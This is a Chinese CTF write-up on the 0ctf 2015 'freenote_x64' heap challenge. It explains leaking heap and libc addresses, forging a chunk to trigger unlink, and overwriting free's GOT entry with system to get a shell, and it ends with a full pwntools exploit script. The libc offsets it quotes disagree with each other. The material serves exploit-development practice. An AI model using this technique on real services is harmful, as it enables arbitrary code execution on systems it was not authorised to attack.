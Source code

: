 # 2015 0ctf pwn--freenote_x64(jarvisoj level6_x64)

题目类似记事本的功能

![22](F:\2018网鼎杯\babyheap_50dc3a21597ea49ed06895a2bcc77684\babyheap\22.png)

漏洞在free堆时没有进行检查

![33](F:\2018网鼎杯\babyheap_50dc3a21597ea49ed06895a2bcc77684\babyheap\33.png)

而且在glibc中，free之后不会清空堆中的内容，输入并没有在末尾加'\x00'截断，可以读取超过预定长度的内容。

注意：程序malloc最小的数值是0x80，然后是0x180。

## 利用思路

double free和unlink搭配实现任意地址读写，目标是修改free_got中的内容。

### 第一步 求出heap_base和libc_base

unlink 需要 修改 fd和bk，所以要知道heap地址，进行修改。

为了防止合并，并一次性获取heap和libc地址，我们分配4个新块。

```python
new(1,'a')
new(1,'a')
new(1,'a')
new(1,'a')
delete(0)
delete(2)
```

这时chunk0的fd，bk和chunk2的fd，bk如下

main_arena<-->  fd  chunk 0  bk <--->   fd    chunk 2   bk ---》main_arena

![屏幕截图(80)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(80).png)

这时，新建两个0x8的chunk，覆盖掉chunk2，chunk0，由于new时没有清空堆，list时便会把堆地址和main_arena的地址泄露出来。

![屏幕截图(81)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(81).png)

堆基地址

![屏幕截图(82)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(82).png)

偏移为 0x242a000 - 0x242b940 = 0x1940

libc_base

![屏幕截图(83)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(83).png)

偏移为 0x7f4658fb9b78 - 0x7f4658c1e000 = 0x 39bb78(靶机偏移为0x3be7b8)

### 第二步 修改chunk的fd，bk，通过unlink操作，达到地址任意写

先找到通过unlink的地址，由下图我们选择了chunk2，即heap+0x60

![屏幕截图(82)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(82).png)

还记得上次的unlink吗，2018网鼎杯的babyheap，那是向前合并，这次我们来向后合并，先伪造chunk

```python
payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "a"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
```

![屏幕截图(85)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(85).png)

free chunk2时，系统会检测chunk2 的flag位为0，prev_size为0x110，地址减0x110到0x51（fake chunk处），p指针指向fake chunk，unlink检测 p->fd->bk==p   p->bk ->fd ==p , 即0xbfd018 + 0x18 = 0xbfd030(上图是0x242030, 由于运行了两次，记住030就好了 -_-！！)    0xbfd020 + 0x10 = 0xbfd030

完成unlink后，chunk0的ptr会指向0xbfd018,我们修改chunk0的ptr指向 free_got，然后再修改时就再 free_got处修改了，这时我们写进去system函数的地址。

```python
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 
#
edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
```

最后新建一个chunk4，里面内容为"/bin/sh\x00"

free(4),就会执行system('/bin/sh')了

exp:

```python
from pwn import *
 
p = process("./freenote")
elf = ELF("./freenote")
libc = ELF("./libc.so.6")
context.log_level = 'debug'
 
def list():
    p.recvuntil("Your choice: ")
    p.sendline("1")
 
def new(length, note):
    p.recvuntil("Your choice: ")
    p.sendline("2")
    p.recvuntil("new note: ")
    p.sendline(str(length))
    p.recvuntil("note: ")
    p.send(note)
 
def edit(index, length, note):
    p.recvuntil("Your choice: ")
    p.sendline("3")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
    p.recvuntil("Length of note: ")
    p.sendline(str(length))
    p.recvuntil("Enter your note: ")
    p.send(note)
 
def delete(index):
    p.recvuntil("Your choice: ")
    p.sendline("4")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
 
def exit():
    p.recvuntil("Your choice: ")
    p.sendline("5")
 
#leak address
new(1, 'a')
new(1, 'a')
new(1, 'a')
new(1, 'a')
 
delete(0)
delete(2)
 
new(8, '12345678')
new(8, '12345678')
 
list()
p.recvuntil("0. 12345678")
heap = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x1940
p.recvuntil("2. 12345678")
libcbase = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x3c4b78
 
log.info("heap: %s" % hex(heap))
log.info("libc_base: %s" % hex(libcbase))
 
delete(3)
delete(2)
delete(1)
delete(0)
 
#double link
gdb.attach(p)
payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "A"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
 
 
 
#change
 
free_got = elf.got['free']
system = libcbase + libc.symbols['system']
 
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 
#
edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
 
payload05 = "/bin/sh\x00"
new(len(payload05), payload05)
delete(4)
 
p.interactive()
```

